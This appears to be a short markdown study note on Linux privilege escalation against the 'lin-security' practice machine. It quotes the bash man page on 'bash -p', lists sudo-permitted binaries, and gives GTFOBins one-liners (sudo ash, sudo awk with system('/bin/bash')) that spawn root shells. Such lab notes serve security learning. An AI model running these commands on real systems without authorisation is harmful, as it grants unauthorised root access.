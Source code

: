 ```yaml
---
title: lin-security + GTFO bins
category: linux privesc
order: 1
---
```


# 1 tip
---
“…Turn on privileged mode… If the shell is started with the effective user (group) id not equal to the real user (group) id, and the -p option is not supplied, these actions are taken and the effective user id is set to the real user id. If the -p option is supplied at startup, the effective user id is not reset. Turning this option off causes the effective user and group ids to be set to the real user and group ids…”
```
bash -p
```
&nbsp;
# 2 gtfobins
---
## | check
```
sudo -l
User bob may run the following commands on linsecurity:
    (ALL) /bin/ash, /usr/bin/awk, /bin/bash, /bin/sh, /bin/csh, /usr/bin/curl, /bin/dash, /bin/ed, /usr/bin/env, /usr/bin/expect, /usr/bin/find, /usr/bin/ftp, /usr/bin/less, /usr/bin/man, /bin/more, /usr/bin/scp, /usr/bin/socat,
        /usr/bin/ssh, /usr/bin/vi, /usr/bin/zsh, /usr/bin/pico, /usr/bin/rvim, /usr/bin/perl, /usr/bin/tclsh, /usr/bin/git, /usr/bin/script, /usr/bin/scp
```

## | ash  
can be use to scape a restricted shell if granted sudo is easy privesc
```
sudo ash
```

## | awk
can be use to scape a restricted shell , if can run as sudo, insta privesc
```
sudo awk 'BEGIN {system("/bin/bash")}'
```

## | csh
like ash  
